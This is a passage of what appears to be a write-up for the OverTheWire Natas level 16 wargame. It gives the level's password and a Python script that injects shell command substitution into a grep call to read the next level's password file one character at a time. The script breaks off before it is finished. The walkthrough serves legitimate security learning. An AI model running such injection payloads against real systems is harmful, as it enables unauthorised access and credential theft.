 Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# Level 16

## Command substitution and boolean injection

URL: http://natas16.natas.labs.overthewire.org/

This level is similar to level 9 and level 10 except for the fact that:

```php
passthru("grep -i \"$key\" dictionary.txt");
```

The `\"` before and after the `$key` changes everything. One thing to attack this is command substitution. Consider the following brute force:

```python
import requests
from requests.auth import HTTPBasicAuth

auth_username = 'natas16'
auth_password = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
word_list = []
password_list = [""]
numeral_list = ["0", "1", "2", "3" ,"4", "5", "6", "7", "8", "9"]
def brute_force_positions():
    for i in range(1, 33):

        payload = '$(cut -c' + str(i) +' /etc/natas_webpass/natas17)'
        response = requests.post('http://natas16.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password), data = {'needle': payload})
        response_text = response.text
        response_text_start_index = response_text.index("<pre>")
        response_text = response_text[response_text_start_index + 5:]
        response_text_end_index = response_text.index("</pre>")
        response_text = response_text[0:response_text_end_index]
        line_split = response_text.split("\n")
        captured_line = ""
        for line in line_split:
            if(len(line) == 1):
                captured_line = line
                word_list.append(line)
                print(line)

        if(captured_line == ""):
            word_list.append("numeral")
            print("numeral")

def modified_queries():
    payload = '$(cut -c2 /etc/natas_webpass/natas17)'
    response = requests.post('http://natas16.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password), data = {'needle': payload})
    print(response.text)

def create_password_list():
    global word_list
    global password_list
    global numeral_list
    index = 1
    for word in word_list:
        print(index)
        index = index + 1
        if(word == "numeral"):
            new_list = []
```